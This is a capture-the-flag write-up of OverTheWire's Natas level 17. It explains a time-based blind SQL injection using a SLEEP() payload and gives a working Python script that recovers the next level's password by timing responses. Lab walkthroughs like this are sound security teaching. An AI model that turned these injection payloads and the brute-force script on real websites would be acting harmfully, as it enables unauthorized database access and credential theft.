




# OverTheWire - Natas - Level 17

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas17` password in the previous challenge, it can be
used to log into http://natas17.natas.labs.overthewire.org:



## Initial Analysis

This looks very similar to [Level 15](level_15.md) in that it only has a
`Username` input box and a `Check existence` button.

There is also a `View sourcecode` link that seems like a hint.

## Approach Strategy

1. Click the `View sourcecode` link
1. Make it up from there!

## Step-by-Step Solution

Clicking the `View sourcecode` link shows the source code for the web page. The
passwords are censored, but the PHP code for the page is shown:



This code is very similar to Level 15, except that the `echo` statements have
all been commented out. Those statements were the behavioural oracle, so there
must be a different way of solving the challenge.

Some formatting and comments help to understand what this PHP code is doing:

```php
// Check to see if the "username" input is in the request: in other words, did
// the user click the "Login" button?
if (array_key_exists("username", $_REQUEST)) {
  // Create a connnection to the MySQL database.
  $link = mysqli_connect('localhost', 'natas17', '<censored>');
  mysqli_select_db($link, 'natas17');

  // Set up the SQL query used to check if the username is in the database.
  $query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\"";

  // Some debug functionality to print the query before running it. This could
  // be enabled using the Developer Tools to add a hidden "debug" element to the
  // form data.
  if (array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
  }

  $res = mysqli_query($link, $query);
  if ($res) {
    // This is the change from Level 15: there is no echoing of output to be
    // used to divine the password.
    if (mysqli_num_rows($res) > 0) {
      // echo "This user exists.<br>";
    } else {
      // echo "This user doesn't exist.<br>";
    }
  } else {
    // echo "Error in query.<br>";
  }

  mysqli_close($link);
}
```

This is becoming a much harder challenge, but that only means that the solution
needs to be more complex - but it's not impossible.

Entering the user `somebody` on the web page, as expected there is no output at
all:



This doesn't tell if the user exists, or if they don't exist, or if the query
failed. Yikes!

The solution for Level 15 used a "behavioural oracle", where correctly guessing
one character of the password produced different server output than incorrectly
guessing. This time the output is the same - no output at all!

There is another class of SQL injection attacks that specifically deals with
this problem. Databases have functions that can be called when the guess is
correct, and not called when the guess is incorrect. In MySQL databases, the
`SLEEP` function can be used: if the guess is correct then sleep for five
seconds, otherwise return immediately. The response time of the HTTP request can
be used to check if the guess was correct or not.

For this type of SQL injection, it is very helpful to know what SQL query is
executed. Assuming that once again it is:

```php
"SELECT * from users where username=\"" . $_REQUEST["username"] . "\""
```

Entering the username `somebody`, the SQL executed is:

```sql
SELECT * from users where username="somebody"
```

Note how in the SQL the username is in double quotation marks. Since the user
input is not being sanitized, the double quotation mark can be used to escape
the username fields and change the SQL query. The trick is:

```
natas18" AND SLEEP(5) --
```

This will run the SQL query:

```sql
SELECT * from users where username="natas18" AND SLEEP(5) --
```

Using this on the web form with the Developer Tools open to the Network tab,
the timing of the HTTP requests can be seen:



It works! Changing the username to anything else will cause the HTTP response
to come back much quicker. That is because the database is smart: if the
username doesn't exist, then the query will be false, so there is no point in
executing anything after the `AND` (boolean short-circuiting).

This is the behavioural oracle to solve this challenge. All that is needed is to
check the password character by character, and then put it all together.

To make a guess of the first letter of the password, the "username" to use is
`natas18" AND BINARY SUBSTRING(password, 1, 1) = "a" AND SLEEP(5) -- ` which
results in the SQL:

```sql
SELECT * from users where username="natas18" AND BINARY SUBSTRING(password, 1, 1) = "a" AND SLEEP(5) -- "
```

The letters `a` to `z` and `A` to `Z`, plus the digits `0` to `9` all need to be
tested to see if they are correct. This _could_ be done by typing in the
password guesses one by one and eventually figuring out the entire 32 character
password. However, with a worst case of 1,984 guesses, and an average half that,
it would be a lot of typing and take a long time. This is something that needs
to be automated: and this can be a very big leap for non-developers.

### Automate the Process

The first step is to decide what technology to use. This could be done with a
shell script and the `curl` command, but it "feels" like it needs a programming
language. Python is a popular language for "one off" coding, so that's a good
place to start.

It's best to figure out the steps needed using "pseudocode":

1. Get the `natas17` username and password that are needed to call the web
   server
2. Loop over each of the 32 characters in the password
3. Loop over each of the 62 possible password characters
4. Create the "username" parameter that contains the SQL injection for the
   password substring guess
5. Call the web server with an HTTP request duplicating what happens when the
   form is submitted
6. Check the response from the web server. If it returns in more than five
   seconds, then the next character of the password has been found. For less
   than five seconds the password guess was wrong and change to the next
   character

> Note: The five seconds is just a random value. If it's too small, then there
> are false positives with slow networks. If it is too large then it takes
> longer to go through all the characters in the password.

#### Step 1: Credentials

Although the password could be stored in the code, it's poor form to publish
passwords for challenges, so for this demonstration the password must be
entered by the user. In Python this looks like:

```python
import getpass

password = getpass.getpass(prompt='Enter password for natas17: ')
```

#### Step 2: Loop over the password length

First set up a variable to hold the correctly-guessed part of the password, and
then do the loop for 0 to 31.

```python
correct_guesses = ""
for i in range(0, 32):
```

#### Step 3: Loop over the password characters

This is also fairly easy:

```python
for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
```

#### Step 4: The SQL Injection String

```python
password_guess = correct_guesses + char
print(password_guess)
sqli = f'natas18" AND BINARY SUBSTRING(password, 1, { len(password_guess) }) = "{ password_guess }" AND SLEEP(5) -- '
```

#### Step 5: Web Server Request

```python
import requests

response = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=("natas17", password), data={ "username": sqli })
```

#### Step 6: Response Handling

```python
if response.elapsed.total_seconds() > 5:
    correct_guesses += char
    break
```

And that's it. Bringing it all together:

```python
import getpass
import requests

# Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas17: ')

# Step 2: Loop over the password length
correct_guesses = ""
for i in range(0, 32):
  # Step 3: Loop over the password characters
  for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
    # Step 4: The SQL Injection String
    password_guess = correct_guesses + char
    print(password_guess)
    sqli = f'natas18" AND BINARY SUBSTRING(password, 1, { len(password_guess) }) = "{ password_guess }" AND SLEEP(5) -- '

    # Step 5: Web Server Request
    response = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=("natas17", password), data={ "username": sqli })

    # Step 6: Response Handling
    if response.elapsed.total_seconds() > 5:
        correct_guesses += char
        break
```

Running this command, and waiting for many HTTP requests, produces the
`natas18` password.

## Key Takeaways

- SQL injection is a large class of exploits, and side effects of queries can
  be used to slowly discover information
- User input should always be sanitized before use
- Raw SQL queries with appended user input are a classic sign of potential SQL
  injection vulnerabilities
- Even if the server returns no data in the response, if the query can be
  manipulated then information can be extracted

## Beyond the Challenge

It's always a good idea to think about other solutions.

The Python code above will work, but there is a lot of room for improvement. It
is fine for a "one off" challenge, but refactoring the code would make it better
and perhaps more re-usable. As an exercise the file
[solution.py](files/level_17/solution.py):

- sets up constants for things like the URL and password characters
- breaks the code into small single-purpose functions
- adds error handling and logging
- keeps track of the total number of HTTP requests needed to find the password
- does a confirmation check at the end to confirm that the password is correct

### Optimization

It is also possible to optimize this code. One nice thing about the
case-insensitive comparison is that it is actually trying two letters at one
time. For example, a case-insensitive check of 'a' could be made, and if it is
true then a case-sensitive check could then be made. So instead of
case-sensitively checking
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`, which takes an average
of 26 guesses, it could case-insensitively check `abcdefghijklmnopqrstuvwxyz`
and if there is a match then do the case-sensitive check. This would be on
average 13 + 1 guesses to do the whole alphabet.

The file [solution_optimized.py](files/level_17/solution_optimized.py) provides
this solution. The unoptimized solution needed nearly 1000 HTTP requests, but
this optimized solution needs fewer than 500 HTTP requests.

### Binary Search

The linear search through the alphabet is fine, but it would be faster to do a
binary search. A linear search is:

- Is it `a`? [NO]
- Is it `b`? [NO]
- Is it `c`? [NO]
- etc.

If the target is randomly in `a` through `z`, then on average it'll take 26 / 2
= 13 guesses to find the value.

In a binary search, though, each guess reduces the possible values by two:

- Is it after `m`? [NO]
- Is it after `g`? [YES]
- Is it after `j`? [YES]
- etc.

On average this will take 4.7 guesses to find the value.

The code is found in [solution_binary.py](files/level_17/solution_binary.py). It
finds the password in a little more than 200 HTTP requests.
